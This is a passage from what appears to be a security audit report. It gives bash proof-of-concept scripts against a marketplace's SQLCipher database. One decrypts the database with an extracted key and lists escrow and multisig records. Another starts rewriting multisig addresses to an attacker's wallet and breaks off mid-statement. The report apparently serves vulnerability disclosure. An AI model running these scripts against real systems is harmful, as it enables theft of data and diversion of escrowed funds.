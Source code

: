 
### POC 2: Database Decryption

**Target:** Prove that extracted key allows full DB decryption

```bash
#!/bin/bash
# POC: Decrypt SQLCipher database using extracted key
# Requires: sqlcipher, extracted key from POC 1

DB_FILE="marketplace.db"
ENCRYPTION_KEY="3f7a8b2c9d1e4f5a6b7c8d9e0f1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a"

echo "[*] Attempting to decrypt database: $DB_FILE"
echo "[*] Using key: ${ENCRYPTION_KEY:0:16}...${ENCRYPTION_KEY: -16}"

# Test decryption
sqlcipher "$DB_FILE" <<EOF
PRAGMA key = "x'$ENCRYPTION_KEY'";
.tables
SELECT COUNT(*) FROM multisig_states;
SELECT escrow_id, multisig_address, phase FROM multisig_states LIMIT 5;
EOF

if [ $? -eq 0 ]; then
    echo "[!] SUCCESS: Database decrypted!"
    echo "[!] All multisig secrets are now accessible"
else
    echo "[!] FAILED: Wrong key or corrupted database"
fi
```

**Expected Output:**
```
[*] Attempting to decrypt database: marketplace.db
[*] Using key: 3f7a8b2c9d1e4f5a...5c6d7e8f9a
escrow_orders  listings  multisig_states  orders  users
5
abc123|9wHq7X...|Finalized
def456|9xKp3Y...|ExchangingInfo
[!] SUCCESS: Database decrypted!
[!] All multisig secrets are now accessible
```

---

### POC 3: Silent Database Modification

**Target:** Demonstrate integrity attack (modify DB without detection)

```bash
#!/bin/bash
# POC: Modify multisig data to redirect funds
# Requires: Decryption key, write access to DB

DB_FILE="marketplace.db"
ENCRYPTION_KEY="3f7a8b2c9d1e4f5a6b7c8d9e0f1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a"
ATTACKER_ADDRESS="9xMaliciousAddressControlledByAttacker..."

echo "[*] Modifying multisig address to attacker-controlled wallet"

sqlcipher "$DB_FILE" <<EOF
PRAGMA key = "x'$ENCRYPTION_KEY'";
BEGIN TRANSACTION;

-- Replace legitimate arbiter address with attacker's
UPDATE multisig_states
```